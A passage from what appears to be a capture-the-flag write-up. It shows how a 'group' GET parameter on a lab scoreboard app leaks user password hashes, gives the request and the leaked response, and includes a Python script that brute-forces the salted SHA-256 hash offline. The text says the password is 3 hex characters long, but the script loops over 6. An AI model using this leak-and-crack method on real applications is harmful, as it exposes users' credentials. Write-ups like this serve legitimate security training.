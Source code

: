 So yes, the flag is hashed into a format like this: `<salt>.<sha256_string>`. That being said, we can't brute force the correct flags.

Now, using the `group` GET parameter, we can leak a model's attribute's values.

This makes me wonder: **Can we leak all users' password?**

In `web/app/models/user.py`, we can see that model `User` has attribute `password`:

```python
class User(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    username = db.Column(db.String, nullable=False)
    is_admin = db.Column(db.Boolean, default=False)
    password = db.Column(db.String, nullable=False)
    score = db.Column(db.Integer, default=0)
    last_solved_at = db.Column(db.DateTime)
```

To leak its values, we can send the following GET request:

```http
GET /api/users/?group=password HTTP/1.1
Host: localhost:5000
Cookie: session=.eJwdzjkOwjAQAMC_uKaw197D-Uy0lwVtQirE34lopp5P2deR57Ns7-PKR9lfUbYSQxb6cGhjsZL7RAO7XRy4atCC2qmq25SlpMxJVaRB1EVM1kTFTLk1xhCpPNBnV2FNRJmeZB4WCMxgXXOQ1WBPn-QG4OWOXGce_03__gCj6C_9.ZzmXGg.BwNOsFcpqkrGWC_VjwHDbgONrSQ


```

Response data:

```json
{"users":[...],"4dd34ac9.e0c9e1bbd6c30c96dd3b6d55ecba839c67afdc424b1fec20336db000230cc447":[{"id":2,"is_admin":false,"score":500,"username":"player"}],[...]]}}
```

Nice! We successfully leaked `player`'s password hash!

Again, similar to the challenges' flag, all passwords are hashed in the exact same way:

```python
@event.listens_for(User.password, 'set', retval=True)
def hash_user_password(target, value, oldvalue, initiator):
    if value != oldvalue:
        return compute_hash(value)
    return value
```

Since now we have `player`'s password hash, we can **brute force it *offline***. This is doable because `player`'s password is only 3 hex characters long, which is brute force-able.

To do so, we can use the following Python script:

```python
import hashlib

def compute_hash(password, salt=None):
    return salt + '.' + hashlib.sha256(f'{salt}/{password}'.encode()).hexdigest()

def bruteForcePassword(targetPassword):
    for i in range(0, 0xffffff + 1):
        password = hex(i).replace('0x', '').rjust(6, '0')
        print(f'[*] Trying password: {password}', end='\r')
        salt, digest = targetPassword.split('.')
        hash = compute_hash(password, salt)

        if hash != targetPassword:
            continue

        print(f'\n[+] Found correct password: {password}')
```